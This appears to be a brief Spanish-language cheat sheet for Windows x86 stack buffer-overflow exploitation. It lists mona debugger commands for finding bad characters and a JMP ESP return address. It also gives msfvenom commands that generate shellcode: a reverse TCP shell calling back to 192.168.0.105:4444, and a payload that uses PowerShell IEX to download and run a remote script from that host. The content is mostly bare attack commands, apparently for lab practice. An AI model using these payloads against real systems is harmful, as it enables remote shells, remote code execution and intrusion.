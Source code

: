 
# Generar cadena bytearray
```pip install badchars```
```badchars -f python```

## MONA
#### Configurar carpeta de trabajo
```!mona config -set workingfolder C:\Users\win7bits\Desktop\%p```
#### Generar badchars
```!mona bytearray -b "\x00"```   
```!mona bytearray -b "\x00\x07"```
#### Comparar haciendo referencia al bytearray que generó y la dirección a la que apunta ESP
```!mona compare -f C:\mona\appname\bytearray.bin -a <address>```
#### Encontrar el punto de salto
```!mona jmp -r esp -cpb \x07\x2e\xa0\x00"```
```!mona jmp -r esp -cpb "\x00"```

## SHELLCODE
#### cmd
```msfvenom -p windows/shell_reverse_tcp lhost=192.168.0.105 lport=4444 EXITFUNC=thread -a x86 --platform windows -b "\x00" -f c```
#### Powershell
```msfvenom -p windows/exec CMD="powershell IEX(New-Object Net.WebClient).downloadString('http://192.168.0.105:8000/PS.ps1')" lhost=192.168.0.105 lport=4444 EXITFUNC=thread -a x86 --platform windows -b "\x00" -f c```

#### Idioma teclado
ES Spanish (United States)
